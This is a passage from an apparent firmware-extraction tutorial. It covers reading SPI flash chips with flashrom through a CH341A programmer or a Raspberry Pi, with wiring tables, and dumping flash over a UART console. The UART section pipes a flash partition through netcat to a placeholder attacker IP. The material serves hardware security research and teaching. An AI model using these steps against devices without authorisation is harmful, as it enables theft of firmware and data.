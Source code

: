 ```bash
# Use hot air station or soldering iron
# Place chip in ZIF socket on CH341A programmer
```

**Step 3: Read flash memory**

```bash
# Linux: Install flashrom
sudo apt install flashrom

# Detect flash chip:
sudo flashrom -p ch341a_spi

# Output:
# Found Winbond flash chip "W25Q64.V" (8192 kB, SPI) on ch341a_spi.

# Read flash (3 times to verify integrity):
sudo flashrom -p ch341a_spi -r firmware1.bin
sudo flashrom -p ch341a_spi -r firmware2.bin
sudo flashrom -p ch341a_spi -r firmware3.bin

# Verify all reads are identical (compare hashes):
sha256sum firmware*.bin
# All three should have same hash

# Use firmware1.bin for analysis
```

**Using Raspberry Pi as SPI programmer:**

```bash
# Enable SPI on Raspberry Pi:
sudo raspi-config
# Interfacing Options → SPI → Enable

# Wiring (Raspberry Pi GPIO to SPI flash):
# RPi GPIO  | SPI Flash Pin | Function
# --------- | ------------- | --------
# Pin 1 (3.3V) | Pin 8      | Power
# Pin 6 (GND)  | Pin 4      | Ground
# Pin 24 (CE0) | Pin 1      | Chip Select
# Pin 21 (MISO)| Pin 2      | Data Out
# Pin 19 (MOSI)| Pin 5      | Data In
# Pin 23 (SCLK)| Pin 6      | Clock

# Read flash:
sudo flashrom -p linux_spi:dev=/dev/spidev0.0,spispeed=1000 -r firmware.bin
```

### Method 4: UART/Serial Console Extraction

**If device has UART debug console**, you may be able to dump firmware.

```bash
# Connect to UART (see Hardware Interfaces section)
# Common UART commands (BusyBox/Linux):

# Dump entire flash partition:
dd if=/dev/mtd0 | nc <attacker_ip> 1234

# On attacker machine:
nc -l -p 1234 > firmware.bin

# Or use base64 encoding (if binary transfer fails):
dd if=/dev/mtd0 | base64
# Copy output, decode on attacker machine:
```